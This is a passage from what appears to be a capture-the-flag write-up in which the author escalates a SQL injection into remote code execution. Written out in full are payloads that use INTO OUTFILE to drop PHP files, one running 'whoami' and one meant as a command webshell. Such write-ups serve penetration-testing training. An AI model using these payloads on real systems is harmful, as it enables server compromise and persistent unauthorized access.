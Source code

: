 Bingo bango we got RCE. Next operation in order is to find out what user I am.

```
payload:

%0a';select '<?php system("whoami"); ?>' into outfile '/var/lib/mysql/raccoonwhoami.php'; --1
```

![whoami php upload](/img/zipping/zipping_whoami_sqli.png)

Lastly a cmd running php file upload to upload a persistent shell and get user.

```
payload:

%0a';select '<?="$_GET[0]"?>' into outfile '/var/lib/mysql/phpcmdraccoon.php'; --1
```

![cmd upload](/img/zipping/zipping_small_cmd_upload.png)
